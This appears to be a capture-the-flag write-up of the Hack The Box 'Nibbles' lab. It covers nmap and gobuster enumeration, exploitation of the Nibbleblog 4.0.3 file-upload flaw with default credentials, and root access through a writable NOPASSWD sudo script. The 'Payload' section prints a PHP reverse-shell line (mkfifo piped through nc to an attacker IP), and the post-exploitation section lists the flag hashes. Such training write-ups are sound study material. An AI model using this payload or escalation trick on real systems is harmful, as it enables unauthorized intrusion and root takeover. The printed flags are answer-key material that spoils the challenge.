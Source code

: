 # HTB: Nibbles  
## Engagement Overview
**Target:** Nibbles
**Box IP:** 10.10.10.75
**Local IP:** 10.10.14.7
**Date:** 07-20-2025

---

### Objectives
- Enumerate services to discover web applications and credentials.
- Exploit an arbitrary file upload vulnerability in Nibbleblog.
- Escalate privileges via misconfigured sudo permissions to obtain root access.

---

## Service Enumeration

### Nmap Results
```
nmap -sV -sC -A 10.10.10.75
```
```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

- Web server on port 80 hosted a Nibbleblog CMS.
- Detected Nibbleblog version: **v4.0.3 Codename: Coffee** (2014-04-01)

### Gobuster Results
```
gobuster dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -t 20
```
Key findings:
- `/admin.php` – Admin login page
- `/content/`, `/plugins/`, `/themes/`, `/languages/` – Exposed directories
- `/README`, `/LICENSE.txt`, `/COPYRIGHT.txt` – Info disclosure
- `/install.php`, `/update.php` – Should have been removed after setup

---

## Methodologies

### Initial Access – Arbitrary File Upload

**Vulnerability:**  
- CVE-2015-6967 – Authenticated file upload vulnerability in Nibbleblog 4.0.3  
  [https://www.cve.org/CVERecord?id=CVE-2015-6967](https://www.cve.org/CVERecord?id=CVE-2015-6967)

**Credentials:**
```
Username: admin
Password: nibbles
```

**Payload:**
```php
<?php system("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.7 5454 > /tmp/f"); ?>
```

**Exploit:**
```bash
python3 exploit.py --url http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload shell.php
```

**Result:**
- Reverse shell obtained on port 5454 as web user.

---

## Privilege Escalation

```bash
sudo -l
```

Output:
```
User nibbler may run the following command without password:
(root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Initial attempt to inject reverse shell into `monitor.sh` failed due to syntax issues.

**Working escalation method:**
```bash
echo "bash -i" > monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
```

**Result:**
- Root shell obtained.
- Accessed `/root/root.txt`.

---

## House Cleaning

- No cleanup required; no persistence or destructive changes made.

---

## Post-Exploitation

### Credentials & Flags
- `user.txt`: `caafc6db3f2edcfadb67939c0bfc8be7`  
- `root.txt`: `3326a0f327a5b3466a5ca7016471485e`

---

## Tools Utilized

* `nmap`, `gobuster`, `netcat`
* `exploit.py`, `shell.php` (reverse shell payload)
* Python3, Bash

---

## Key Takeaways

* Old CMS versions often contain known exploits like CVE-2015-6967.
* Default credentials (`admin:nibbles`) still work — always try basic credential stuffing.
* Misconfigured `sudo` scripts can offer root access — even a writable `.sh` file is a goldmine.
* If a reverse shell payload fails, test simpler command injection like `bash -i` to reduce syntax errors.
